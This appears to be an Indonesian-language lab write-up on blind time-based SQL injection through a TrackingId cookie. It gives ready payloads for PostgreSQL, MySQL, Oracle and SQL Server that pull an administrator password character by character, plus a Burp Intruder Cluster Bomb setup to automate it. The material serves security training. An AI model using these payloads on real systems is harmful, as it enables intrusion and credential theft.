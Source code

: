 
# Blind SQL injection with time delays and information retrieval


## **1. Konsep Dasar**
Blind SQL Injection dengan time delays digunakan untuk mengekstrak informasi dari database menggunakan waktu respons sebagai indikator. Dengan payload yang menginduksi penundaan, kita dapat mendeteksi karakter tertentu dari data seperti password.

---

## **Penjelasan Query**
### **Langkah-Langkah Query**
1. **Validasi Penundaan Waktu**  
   Uji apakah server merespons dengan delay menggunakan:
   ```sql
   COOKIE'||pg_sleep(10)--
   ```
   Jika server menunda respons selama 10 detik, maka injeksi berhasil.

2. **Kondisi Logis**  
   Gunakan kondisi logis untuk membandingkan nilai:
   ```sql
   SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
   ```
   Payload:
   ```plaintext
   TrackingId=jIPoq0qYcS0Y2AmF'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
   ```

3. **Ekstraksi Data**  
   Ekstrak karakter pertama password menggunakan fungsi substring:
   ```sql
   SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END
   ```
   Payload:
   ```plaintext
   TrackingId=jIPoq0qYcS0Y2AmF'||(SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END)--
   ```

4. **Iterasi Tiap Karakter**  
   Gunakan fungsi iteratif untuk memeriksa setiap karakter hingga password lengkap.

---

## **2. Brute Force dengan Cluster Bomb**
Cluster Bomb adalah fitur di Burp Suite Intruder untuk mencoba berbagai kombinasi payload secara sistematis.

### **Langkah-Langkah:**
1. **Buka Burp Suite**  
   Arahkan request yang mengandung parameter SQL Injection ke **Intruder**.

2. **Atur Payload Position**  
   Tandai parameter yang akan diuji, seperti:
   ```
   TrackingId=2Ls9s94z7mt1Xnj2'||(SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END)--
   ```
   Tandai posisi:
   - **§1§**: Posisi indeks karakter.
   - **§a§**: Posisi karakter yang akan diuji.

3. **Set Payload**  
   - **Payload Set 1 (Index)**: 1 hingga panjang maksimal password, misalnya 1–20.
   - **Payload Set 2 (Karakter)**: Semua karakter yang mungkin, seperti:
     ```
     abcdefghijklmnopqrstuvwxyz0123456789
     ```

4. **Konfigurasi Cluster Bomb**  
   Pilih mode **Cluster Bomb** untuk mencoba setiap kombinasi indeks dan karakter.

5. **Uji Respons Waktu**  
   Jalankan attack dan perhatikan waktu respons. Karakter yang memakan waktu lebih lama menandakan nilai yang benar.

---

## **3. Database Lain**
### **MySQL**
Gunakan fungsi `SLEEP`:
```sql
TrackingId='||(SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN SLEEP(10) ELSE SLEEP(0) END)--
```

### **Oracle**
Gunakan fungsi `DBMS_LOCK.SLEEP`:
```sql
TrackingId='||(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN DBMS_LOCK.SLEEP(10) ELSE DBMS_LOCK.SLEEP(0) END FROM dual)--
```

### **Microsoft SQL Server**
Gunakan `WAITFOR DELAY`:
```sql
TrackingId='; IF (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') WAITFOR DELAY '00:00:10'--
```

---

## **Hasil Akhir**
Dengan menggunakan teknik ini dan memanfaatkan **Cluster Bomb**:
1. Setiap respons delay akan mengindikasikan karakter password yang benar.
2. Ulangi proses untuk semua indeks hingga password lengkap diperoleh.

**Contoh Hasil:**
Password ditemukan: `v06vaymszli7v131izpv`
